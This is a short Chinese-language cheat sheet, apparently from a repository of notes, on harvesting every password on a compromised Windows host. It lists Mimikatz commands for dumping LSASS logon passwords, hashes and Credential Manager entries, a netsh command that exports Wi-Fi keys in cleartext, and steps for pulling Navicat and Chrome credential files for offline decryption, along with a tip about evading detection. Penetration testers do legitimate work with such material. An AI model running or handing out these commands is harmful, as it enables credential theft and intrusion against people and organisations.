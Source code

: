 ### 怎么收集主机上的所有有关密码的敏感信息

**1. Mimikatz 抓取系统和 RDP 凭证**

Mimikatz 是绕过 Windows 安全机制、在内存中抓取明文密码或哈希的旗舰工具

- **抓取系统登录密码/哈希 (LSASS 内存)：**

  ```
  mimikatz.exe
  privilege::debug
  sekurlsa::logonpasswords
  ```

- **抓取 RDP/保存的 Windows 凭证 (Credential Manager)：**

  ```
  mimikatz.exe
  privilege::debug
  sekurlsa::credman
  ```



**2. Wi-Fi 密码抓取**

作为渗透测试工程师，我们倾向于使用系统自带的命令来减少被检测的风险。

- **步骤一：导出所有 Wi-Fi 配置文件**

  ```powershell
  netsh wlan export profile key=clear folder=C:\Temp
  ```

  （注意：key=clear 会导出明文密码）

- **步骤二：提取密码** 读取导出的 `C:\Temp` 目录下的 XML 文件，搜索 `<keyMaterial>` 标签即可找到明文密码



**3. 针对特定软件凭证 (Xshell, Navicat, 浏览器)**

对于这些应用软件，通常需要找到对应的**开源解密工具**，这些工具通常托管在 GitHub 上，专门针对该软件的特定加密算法进行逆向和解密

- **一般操作流程：**
  1. 找到目标软件的配置文件或数据库文件（例如，Navicat 的 `.ncx` 文件、Chrome 的 `Login Data` SQLite 文件）
  2. 将文件下载到本地（如果权限允许）
  3. 使用对应的 GitHub 开源解密工具进行解密